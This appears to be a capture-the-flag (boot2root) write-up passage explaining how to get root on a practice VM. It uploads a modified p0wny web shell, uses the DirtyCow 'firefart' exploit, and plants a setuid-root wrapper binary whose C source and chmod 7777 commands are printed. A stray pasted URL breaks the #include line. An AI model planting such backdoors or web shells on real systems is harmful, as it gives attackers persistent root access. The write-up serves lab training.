 We'll use the same steps as the previous ones to get a shell.

Then we'll push a modified version of [p0wny-shell](https://github.com/flozz/p0wny-shell) to use the executable `evil` that we'll create later.
![[../Images/Capture d’écran 2024-08-05 à 17.37.04.png]]

Then we'll use the firefart exploit (same one as the [Writeup 1 - DirtyCow](../Writeup%201%20-%20DirtyCow.md)) to get a root access and create the `evil` binary.
![[../Images/Capture d’écran 2024-08-05 à 17.40.54.png]]

We can now create `/usr/bin/evil.c`
```c
#include <stdio.h>https://file+.vscode-resource.vscode-cdn.net/Users/guillaume/boot2root/Images/Capture%20d%E2%80%99%C3%A9cran%202024-08-05%20%C3%A0%2017.44.49.png?0.9768794386614355
int main(int ac, char **av) {
    setuid(0);
    setgid(0);
    system(av[1]);
    return 0;
}
```

Now, let's compile it and give it the right permissions:
`gcc /usr/bin/evil.c -o /usr/bin/evil`
`chown firefart:root /usr/bin/evil && chmod 7777 /usr/bin/evil`

We can now go to `https://[VM_IP]/forum/templates_c/webshell.php` and we get a webshell with a root user.
![[../Images/Capture d’écran 2024-08-05 à 17.44.49.png]]